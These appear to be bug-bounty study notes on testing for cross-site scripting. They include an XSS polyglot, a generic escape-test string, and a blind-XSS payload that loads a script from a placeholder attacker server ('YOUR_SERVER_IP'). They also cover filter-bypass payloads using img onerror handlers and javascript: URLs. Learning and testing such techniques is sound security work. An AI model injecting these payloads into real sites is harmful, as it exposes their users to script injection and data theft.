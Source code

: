 - Instead of testing the many payloads one by one to see if the application you're working on is vulnerable, you can use a polyglot.
  - A polyglot is a payload that executes in multiple contexts - it will execute regardless of being inserted into an <img> tag, a <script> tag, or a generic <p> tag and can also bypass some XSS filters.
- ex. from [EdOverflow](https://polyglot.innerht.ml/):

```
javascript:"/*\"/*' /*</template>
</textarea></noembed></noscript></title>
</style><script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```

- The above polyglot contains multiple ways of creating an XSS so if one method fails, another method could still work.
- Another efficient way of testing for XSS is to use generic test strings like: `>'<"//:=;!--`
  - You can use a generic string like this to see which special characters are escaped, and which ones aren't.
  - If you find that some or all of the special characters are not escaped, you can then build a payload around the ones that aren't.
- Blind XSS are harder to detect because you cannot see the reflected input, and you can't test them by generating an alert box.
  - To test them, you'll need to try to make a victim's browser generate a request to a server of your own.
  - ex: Submit the following payload which will make the victim's browser request the page /xss on your server:
    `<script src='http://YOUR_SERVER_IP/xss'></script>`
  - You will then inspect your server logs to see if anyone requests that page. If you see a request to /xss, the XSS was successful.
- Fuzzing is a great way to test for XSS automatically is through fuzzing. This is covered in Chapter 25.
  - Note: Hackers generally discover new XSS manually, but a good way to find out where to start can be done through fuzzing.

**Step 3: Confirm the Impact**

- Keep in mind that the site may use the user input to construct something other than the next returned page.
  - Your input should be use to construct other web pages, email, and file portals.
  - There may be a time delay between when you submit the payload and when it executes. Common in log files and analytics pages.
    - If targetting log files and analytic pages, your payload may be executed later or in another users account.
  - Payloads may only execute under certain conditions, like an admit being logged in, or when the user actively clicks or hovers certain HTML elements.
  - Browse to the necessary pages and perform these actions yourself - if possible.

#### Bypass XSS Protection

**Alternative JavaScript Syntax**

- `<script><script/>` tags are often filtered out, instead you could use an HTML image tag, `<img src="USER_INPUT">`
- Instead of closing out an img tag and inserting a script tag (`<img src="/><script>alert('Vulnerable to XSS');</script>"/>`), you could insert the JavaScript directly as an attribute to the current tag: `<img src="123" onerror="alert('Vulnerable to XSS');"/>`
- Use the special URL schemes from earlier: `<a href="javascript:alert('Vulnerable to XSS')>Click me!</a>"`
